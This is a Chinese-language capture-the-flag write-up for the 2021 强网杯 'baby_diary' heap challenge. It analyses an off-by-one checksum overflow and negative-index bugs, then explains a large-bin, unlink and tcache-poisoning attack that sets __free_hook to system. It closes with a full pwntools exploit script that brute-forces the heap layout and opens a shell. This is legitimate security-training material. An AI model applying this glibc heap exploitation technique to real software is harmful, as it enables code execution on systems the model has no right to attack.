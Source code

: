```yaml
---
title: 强网杯2021 pwn 赛题解析——baby_diary
date: 2023-02-28 23:01:56
categories:
- write-ups
- 其他
---
```

这是一道经典的堆题，可以写入、读取和删除。其中最值得研究的就是write函数最后调用的一个函数，其中涉及几个迷之计算。
# Step 1: 漏洞分析
![](1.png)
我们进入unknown_handle函数（名字是笔者自己起的）：
![](2.png)
后面有一个unknown_cal函数，这个函数对输入的字符串进行了一系列的操作。首先将各个字符取出将它们的ASCII码全加起来保存到一个变量a中，然后循环进行下面的计算：如果a大于0xF，计算``a = (a >> 4) + (a & 0xF)``直到a小于0xF为止。返回到unknown_handle函数中，这里对字符串的后面一位进行了修改。但write函数一开始会要求输入size，申请的空间大小是size+1，这就需要注意read_buf这个函数了。当循环退出的时候，i的值应该就是max_len，此时后面的``buf[i]=0``实际上已经相对于max_len溢出了一个字节。因此unknown_handle函数中最后一条语句实际上相对于size溢出了2个字节。这可能会修改到下一个chunk的size。
![](3.png)
![](4.png)

本题还存在数组溢出漏洞。

请注意read函数，其中并没有对index进行检查，而在check_terminator函数中，存在有整型溢出漏洞，当index为负数时有可能通过检查。
![](5.png)
![](6.png)
但在数组溢出之后，想让check_terminator函数返回true并不容易，需要匹配结束符的ASCII码。

同样地，delete函数中也存在整型溢出漏洞，但如果对应地址不是有效的堆地址，就会直接报错，因此这里也不好利用：
![](7.png)
# Step 2: 确定利用方式，调试编写exp
这里需要注意unknown_handle函数时如何溢出一个字节的。在最后一条语句中，unknown_handle函数只会修改这个溢出字节的最低4位，最高4位不变。而堆管理中正常情况下所有的堆块大小都是以整0x10的形式保存的，即所有堆块的大小都是0x10的倍数。因此仅仅依靠一个字节的溢出无法达到堆块重叠的目的。

这里参考[这篇文章](https://blog.csdn.net/eeeeeight/article/details/118006138?ops_request_misc=&request_id=&biz_id=102&utm_term=baby%20diary&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduweb~default-1-118006138.142^v33^control,185^v2^control&spm=1018.2226.3001.4187)的思路，利用large bin进行中转。当large bin中只有一个chunk时，其四个指针fd、bk、fd_nextsize、bk_nextsize有fd=bk在main_arena，fd_nextsize=bk_nextsize就是chunk自身。
![](8.png)
当我们再一次分配到这一块内存空间时，我们就可以对这里面残留的4个指针进行改写，将其伪造成一个假chunk，这个chunk的fd指针就是原来的fd_nextsize指针，bk指针就是原来的bk_nextsize指针，将原来的bk指针改为合适的size，准备进行unlink操作。unlink操作最为关键的就是假chunk中两个指针的值，fd需要等于假chunk-0x18，bk需要等于假chunk-0x10。前面说过当large bin中仅有一个chunk时，其fd_nextsize和bk_nextsize均指向其自身，因此这里的<font color=red>bk不需要修改，但fd需要修改。</font>**注意：这里需要一定的爆破：由于写入时会在后面加上零字节和标志位，因此需要爆破chunk地址的其中8位，成功率为1/256：**
![](9.png)
在爆破成功之后，我们就通过unlink实现了堆块重叠，申请合适的大小就可以使得main_arena的地址可以被其他chunk所读取。

在获取libc地址后，我们还是利用堆块重叠这一特性，修改tcache的指向到__free_hook，将其改为system地址。然后释放堆块即可。

**<font color=red>需要注意的是：假chunk头部应该写的是假chunk的地址而不应该是其他值，因为unlink_chunk函数中那个``fd->bk=p || bk->fd=p``这个检查中p是一个指针。因此我们还需要想办法让这里的值变成假chunk的地址</font>**。前面说过，我们通过切割large bin chunk可以获得两个地址，然后我们要改写其中一个地址。改写之后我们再一次释放这个chunk，这时这个chunk会进入到**fastbin**中，这就有可能会在假chunk头部写上一个有效的地址。我们只需要将这个chunk重新分配回来，修改这个地址，就有可能满足unlink的检查条件。（<font color=red>注意：不能让chunk进入tcache的原因是tcache chunk的bk指针实际指向tcache那个结构体，因此会破坏假chunk的结构，覆盖我们写入的size值，导致unlink在检查size时就失败</font>）

另外，对于最初进入large bin的chunk的大小也有讲究。在第一次写假chunk信息时，我们需要写入一个size的值，而这个size的值会影响到最后的校验位。如果size的值设置得不正确，那么第一次写入和第二次写入计算出来的校验位就会不一样，这样是不可能利用成功的。因为第一次写入影响的是假chunk的fd指针，第二次写入影响的是假chunk地址本身，二者的校验位必须相等才可能使得unlink的检查通过。经过验证，这里的假chunk的size可以写0x800，但是不能写0x700、0x600等值。

exp如下，平均需要爆破约350次，这和爆破的期望不符，原因暂时不明。

```python
from pwn import *
context.arch = 'amd64'
# context.log_level = 'debug'

io = process('./baby_diary')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.31.so')

def write_diary(size, content):
    io.sendlineafter(b'>> ', b'1')
    io.sendlineafter(b'size: ', str(size).encode())
    io.sendafter(b'content: ', content)

def read_diary(index):
    io.sendlineafter(b'>> ', b'2')
    io.sendlineafter(b'index: ', str(index).encode())

def delete_diary(index):
    io.sendlineafter(b'>> ', b'3')
    io.sendlineafter(b'index: ', str(index).encode())

flag = True
counter = 0
while(flag):
    write_diary(0x1070 - 0x290 - 0x10 + 0x4000, b'\n')      # chunk #0
    write_diary(0x810 - 0x30 - 0x10, b'\n')                 # chunk #1
    write_diary(0x20, b'\n')                                # chunk #2
    delete_diary(1)
    write_diary(0x800, b'\n')                               # chunk #1, previous chunk #1 to large bin
    write_diary(0x20, p64(0x10) + p64(0x800) + b'\x68\n')   # chunk #3
    for i in range(3):
        write_diary(0x20, b'flag\n')                        # chunk #4~6
    write_diary(0x6B0, b'\n')                               # chunk #7
    for i in range(3):
        write_diary(0x20, b'flag\n')                        # chunk #8~10

    for i in range(7):
        write_diary(0x20, b'\n')                            # chunk #11~17
    for i in range(7):
        delete_diary(11+i)                                  # to tcache

    delete_diary(4)
    delete_diary(3)                                         # write the chunk_addr to fake chunk's header

    for i in range(7):
        write_diary(0x20, b'\n')                            # empty tcache, chunk #3, #4, #11~15

    write_diary(0x20, b'\x80\n')                            # chunk #16, change the chunk address
    delete_diary(2)
    write_diary(0x27, b'\x00' * 0x27)                       # chunk #2, change the prev_inuse bit of chunk #1
    delete_diary(2)
    write_diary(0x27, b'\x00' * 0x18 + p64(8) + b'\n')      # chunk #2, change the prev_size of chunk #2 to 0x500
    delete_diary(1)                                         # trigger unlink
    try:
        write_diary(0x40, b'deadbeef\n')                    # chunk #1
        break
    except EOFError:
        io.close()
        io = process('./baby_diary')
        counter += 1
        print(counter)

read_diary(5)
io.recvuntil(b'content: ')
__malloc_hook = u64(io.recv(6) + b'\x00\x00') - 96 - 0x10
base = __malloc_hook - libc.symbols['__malloc_hook']
__free_hook = base + libc.symbols['__free_hook']
system = base + libc.symbols['system']
print(hex(__free_hook))

write_diary(0x20, b'\n')
delete_diary(12)
delete_diary(6)
write_diary(0x50, b'a' * 0x20 + p64(0) + p64(0x31) + p64(__free_hook) + b'\n')
write_diary(0x20, b'/bin/sh\n')
write_diary(0x20, p64(system) + b'\n')
delete_diary(12)

io.interactive()
```

![](10.png)

